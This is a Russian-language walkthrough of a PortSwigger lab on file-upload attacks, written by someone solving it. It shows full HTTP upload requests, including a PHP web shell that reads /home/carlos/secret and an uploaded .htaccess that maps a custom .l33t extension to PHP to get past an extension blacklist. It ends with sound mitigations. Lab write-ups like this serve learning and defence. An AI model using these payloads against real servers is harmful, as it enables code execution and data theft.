

#### Переопределение конфигурации сервера

серверы обычно не будут выполнять файлы, если они не были настроены для этого. Например, прежде чем сервер Apache выполнит PHP-файлы, запрошенные клиентом, разработчикам, возможно, придется добавить следующие директивы в свой файл `/etc/apache2/apache2.conf`:

`LoadModule php_module /usr/lib/apache2/modules/libphp.so AddType application/x-httpd-php .php`

Многие серверы также позволяют разработчикам создавать специальные файлы конфигурации в отдельных каталогах, чтобы переопределить или добавить в одну или несколько глобальных настроек. Серверы Apache, например, загрузят конфигурацию для каталога из файла с названием `.htaccess`, если он присутствует!

Аналогичным образом, разработчики могут сделать конфигурацию для конкретного каталога на серверах IIS с помощью файла `web.config`. Это может включать в себя такие директивы, как следующие, которые в данном случае позволяют пользователям предоставлять файлы JSON:

`<staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>`

Веб-серверы используют такие файлы конфигурации, когда они есть, но обычно вам не разрешается получить к ним доступ с помощью HTTP-запросов. Тем не менее, иногда вы можете найти серверы, которые не могут остановить вас от загрузки собственного вредоносного файла конфигурации. В этом случае, даже если необходимое расширение файла занесло в черный список, вы можете обманом заставить сервер сопоставить произвольное пользовательское расширение файла с исполняемым типом MIME


------------


##### Web shell upload via extension blacklist bypass
лаба https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

Эта лаборатория содержит уязвимую функцию загрузки изображений
Некоторые расширения файлов занесены в черный список

задание: получить файл /home/carlos/secret

подсказка - 
`Вам нужно загрузить два разных файла, чтобы решить эту лабораторную работу.`

--------


на сайте - есть форму для загрузки картинок


в html вижу, что скорее всего сервер будет требовать тип svg 
вот кусок html этой стр - что выше на скрине
```html
<p>

</p>
```

и вот мой запрос на загрузку svg файла на сервер
успешно загрузил svg файл на сервер - 
```http
POST /my-account/avatar HTTP/2
Host: 0afc002004dca252803df817000e0068.web-security-academy.net
Cookie: session=PWFFnSbDMdV4G4lsTXiZd7m0bNiIFToi
Content-Length: 20150
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0afc002004dca252803df817000e0068.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryujFadS2mkDYZPDCW
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afc002004dca252803df817000e0068.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml

<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
<g clip-path="url(#clip0_129_28)">
<rect width="136" height="136" fill="white"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint0_linear_129_28)" fill-opacity="0.2"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 

...   здесь сам svg файл (обрезал его для отчета)   ...

ar_129_28" x1="34.4658" y1="102.508" x2="42.8616" y2="141.434" gradientUnits="userSpaceOnUse">
<stop offset="1"/>
</linearGradient>
<linearGradient id="paint1_linear_129_28" x1="68.0548" y1="-34.6861" x2="68.0548" y2="107.54" gradientUnits="userSpaceOnUse">
<stop stop-color="#F5F5F5"/>
<stop offset="0.452924" stop-color="#44A050"/>
<stop offset="1" stop-color="#171A17"/>
</linearGradient>
<clipPath id="clip0_129_28">
<rect width="136" height="136" fill="white"/>
</clipPath>
</defs>
</svg>

------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="csrf"

XFDogtsQa01jfgdFdOxyuTJgk1v1XqQP
------WebKitFormBoundaryujFadS2mkDYZPDCW--

```

ну и по этому запросу можно получить с сервера мою загруженную картинку
`GET /files/avatars/Frame%2014.svg HTTP/2`

-----------

------

apache и nginx по умолчанию настроены на выполнение php, потому что это основной язык для веба на многих хостингах  
python и js обычно не выполняются напрямую сервером - для python нужен wsgi, для js нужен node.js

---------

пробую прокинуть веб шел через php

`<?php echo file_get_contents('/home/carlos/secret'); ?>`

вот так смогу загрузить свой код на сервер
```http
POST /my-account/avatar HTTP/2
.... // ....
Priority: u=0, i

------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml


<?php echo file_get_contents('/home/carlos/secret'); ?> 👈

------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="csrf"

XFDogtsQa01jfgdFdOxyuTJgk1v1XqQP
------WebKitFormBoundaryujFadS2mkDYZPDCW--

```

 и по запросу на файл `GET /files/avatars/Frame%2014.svg HTTP/2`
 получаю ответ

```http
HTTP/2 200 OK
Date: Thu, 19 Mar 2026 12:43:10 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Thu, 19 Mar 2026 12:43:06 GMT
Etag: "3c-64d5fe8ff4a87"
Accept-Ranges: bytes
Content-Type: image/svg+xml
X-Frame-Options: SAMEORIGIN
Content-Length: 60

<?php echo file_get_contents('/home/carlos/secret'); ?>

```

то есть ответ просто текстом идет


есть пытаюсь выполнить этот php на сервере 
то отправляя запрос
`Content-Disposition: form-data; name="avatar"; filename="Frame 14.php"`
ответ 403 - Forbidden!

-----------

вот так то же блокировка
`Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg.php"`

------

но вот так `Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg.phpp"` ответ 200
но при скачивании файла - получаю просто текст обратно`<?php echo file_get_contents('/home/carlos/secret'); ?>`

------------


#### сервер написан на apache, а значит у него есть фишка с .htaccess файлами

первым делом нужно загрузить` .htaccess` файл с таким содержимым  
`AddType application/x-httpd-php .l33t`

создаю файл    `.htaccess`
```http
POST /my-account/avatar HTTP/2
Host: 0afc002004dca252803df817000e0068.web-security-academy.net
... // ...

------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: image/svg+xml


AddType application/x-httpd-php .l33t


------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="csrf"

XFDogtsQa01jfgdFdOxyuTJgk1v1XqQP
------WebKitFormBoundaryujFadS2mkDYZPDCW--

```

то есть - положил в папку /files/avatars/ специальный конфигурационный файл Apache под названием .htaccess  
этот файл говорит серверу: все файлы с расширением .l33t обрабатывай как PHP, даже если они называются картинками

Apache устроен так, что он читает .htaccess из каждой директории и применяет указанные там правила  
поэтому после загрузки этого файла, любой твой файл с именем типа shell.l33t будет выполнен как PHP, независимо от того какой у него Content-Type
#### теперь можно  создавать в системе файлы с КАСТОМНЫМ расширением  .l33t
то есть такое расширение невозможно заблочить, так как я могу придумать любое расширение

-----

теперь загружаю эксплойт файл с "кастомным расширением" 
```http
POST /my-account/avatar HTTP/2
...//..

------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="avatar"; filename="qwerty.l33t"
Content-Type: image/svg+xml


<?php echo file_get_contents('/home/carlos/secret'); ?>


------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="csrf"

XFDogtsQa01jfgdFdOxyuTJgk1v1XqQP
------WebKitFormBoundaryujFadS2mkDYZPDCW--

```

-------
получаю файл , который теперь с новым расширением!
`https://0afc002004dca252803df817000e0068.web-security-academy.net/files/avatars/qwerty.l33t`




и вуаля - получаю секрет флаг

лаба решена!

------

### вывод


разработчики ввели черный список расширений, но забыли что Apache использует .htaccess для настройки  


сначала я попробовал загрузить обычный php и получил 403 - значит расширение .php в черном списке  

тогда я загрузил файл `.htaccess` с директивой `AddType application/x-httpd-php .l33t  `


этот файл прошел потому что .htaccess не был в черном списке  
после этого я загрузил файл с расширением .l33t внутри которого был php код  


сервер прочитал .htaccess, увидел что .l33t нужно обрабатывать как php и выполнил мой код  

в итоге я получил секрет карлоса по адресу /files/avatars/qwerty.l33t

----------


 
 Apache позволяет переопределять конфигурацию через .htaccess в любой директории  

разработчики не добавили .htaccess в черный список разрешенных расширений  

 сервер разрешил загрузку конфигурационного файла, что уже критическая ошибка  

директива AddType позволила мне создать свое собственное "исполняемое" расширение  

черный список расширений бесполезен если можно просто создать новое расширение через конфиг

нужно запретить загрузку любых конфигурационных файлов .htaccess, web.config и подобных  

для Apache нужно в глобальной конфигурации запретить переопределение настроек через AllowOverride None  

проверять содержимое загружаемых файлов, а не только расширение  

использовать белый список разрешенных расширений вместо черного  

хранить загруженные файлы вне веб-рута и отдавать через скрипт-прослойку с проверкой mime-типа  

никогда не позволять пользователям влиять на конфигурацию сервера


